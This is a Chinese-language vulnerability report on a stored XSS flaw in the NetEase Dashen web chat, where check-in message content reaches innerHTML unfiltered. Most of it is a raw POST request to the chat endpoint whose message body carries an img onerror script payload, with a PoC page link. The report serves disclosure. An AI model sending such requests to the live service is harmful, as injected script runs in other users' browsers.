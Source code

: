 ## 漏洞名称

> 网易大神Web端频道签到消息存在存储型XSS漏洞

## 漏洞类型
> web漏洞，存储型XSS

## 危害等级
> 高危

## 漏洞URL
- POST https://inf-im.ds.163.com/v1/web/chat-room-msg/send-msg
- POC网页 https://ds.163.com/channel/0149881854/1459481/ 打开后在终端打印111222233
- 视频链接：链接：https://pan.baidu.com/s/1468B0QCK8zEIu7MtIVb4CQ 提取码：1314

## 关键数据包

    POST /v1/web/chat-room-msg/send-msg HTTP/1.1
    Host: inf-im.ds.163.com
    Connection: close
    Content-Length: 586
    GL-CheckSum: 20c428fbe325f20d1ff139943dafd2334814804e_28aebbff3e33281f4afe3ebcf0b19ae90ba97998
    sec-ch-ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
    sec-ch-ua-mobile: ?0
    GL-Uid: xxxxxxx
    GL-DeviceId: 1189888043.1694780319
    Content-Type: application/json;charset=UTF-8
    Accept: application/json, text/plain, */*
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
    GL-ClientType: 61
    GL-Nonce: xxxx
    GL-X-XSRF-TOKEN: xxxxx
    sec-ch-ua-platform: "Windows"
    Origin: https://ds.163.com
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://ds.163.com/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
    Cookie: xxx

    { "serverId": "0149881871", "channelId": "1459515", "squareId": "60054a7dd5456877d226706e", "fromUid": "b1fbb501020c46ff88577a3fe103c0ec", "fromNick": "", "msgType": "CHAT_ROOM_MSG", "sourceType": "GOD_WEB", "content": [{ "type": "TITLE", "data": { "banner": "", "icon": "https://ok.166.net/reunionpub/pr_ie_b9j52wbl0e3l6hvzjbq\u003d\u003d_50_1535083040_870", "atUser": "@灯中烛火", "text": "签到成功！" }, "order": 0.0 }, { "type": "TEXT", "data": "<img src=x onerror=console.log(2222233)>", "order": 1.0 }, { "type": "BUTTON", "data": [{ "text": "立即抽奖", "action": { "type": "OPEN_URL", "data": "https://act.ds.163.com/caa6e9455189fb93/64eeea62ee5826000175e65a?utm_source\u003dchatroom\u0026utm_medium\u003dbot+" } }], "order": 2.0 }], "contentType": "IMAGE_TEXT_TEMPLATE" }


## 漏洞描述
网易大神web版中，聊天频道发布签到消息(IMAGE_TEXT_TEMPLATE)时，没有对签到的内容进行过滤，而是直接将签到内容赋值给innerHTML，直接造成存储型XSS攻击。
